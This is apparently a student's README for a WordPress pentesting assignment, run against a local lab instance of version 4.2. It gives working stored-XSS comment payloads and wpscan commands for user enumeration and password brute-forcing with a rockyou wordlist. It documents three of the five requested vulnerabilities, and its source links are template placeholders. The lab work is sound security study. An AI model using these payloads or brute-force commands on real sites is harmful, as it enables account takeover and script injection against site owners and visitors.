 # Project 7 - WordPress Pentesting

Time spent: **6** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID
  - [x] Summary: exploited vulnerability to stored XSS through a comment
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.3
  - [x] GIF Walkthrough: https://imgur.com/a/xWQw0
  - [x] Steps to recreate: 
		1. go to wpdistillery.local;
		2. go to comment section of a post;
		3. comment: "<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>"
  - [x] Affected source code: core wp
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Required) Vulnerability Name or ID
  - [x] Summary: exploited vulnerability to XSS through a comment
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.3
  - [x] GIF Walkthrough: https://imgur.com/a/BpbID
  - [x] Steps to recreate: 
		1. go to wpdistillery.local;
		2. go to comment section of a post;
		3. comment: <script>alert('XSS');</script>
  - [x] Affected source code: core wp
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Required) Vulnerability Name or ID
  - [x] Summary: exploited vunerability to enumeration through wpscan in kali linux terminal
    - Vulnerability types: user enumeration
    - Tested in version: 4.2
    - Fixed in version: 4.7
  - [x] GIF Walkthrough: https://imgur.com/a/EqxpY
  - [x] Steps to recreate: 
		1. open terminal;
		2. use command: wpscan --enumerate u --url wpdistillery.local;
		3. download text file rockyou-75.txt;
		4. use command: wpscan --url wpdistillery.local --wordlist '/root/rockyou-75.txt' --username admin

  - [x] Affected source code: core wp
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)


## Assets

List any additional assets, such as scripts or files
rockyou-75.txt

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work
encountered substaintial difficulties installing the wordpress software
encountered difficulties when attempting to use wpdistillery.dev and needed to use wpdistillery.local
encountered difficulties when attempting to switch between versions and needed to completely reinstall the software

## License

    Copyright [2017] [Beck Galbraith]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
